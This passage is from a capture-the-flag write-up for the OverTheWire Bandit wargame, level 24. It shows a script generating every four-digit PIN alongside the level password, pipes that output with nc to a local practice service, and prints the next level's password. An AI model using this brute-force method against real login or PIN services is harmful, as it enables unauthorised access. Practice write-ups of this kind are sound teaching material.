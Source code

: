 Let's see a sample output of the script.

```bash
bandit24@bandit:/tmp/yariss$ ./bruteforce.sh | head -4
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
bandit24@bandit:/tmp/yariss$ ./bruteforce.sh | tail -4
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9996
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9997
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9998
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 9999
```

Seems good enough, now we need to feed this as input to `nc`

```bash
bandit24@bandit:/tmp/yariss$ ./bruteforce.sh | nc localhost 30002
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.
```

We got our password 😃

> p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
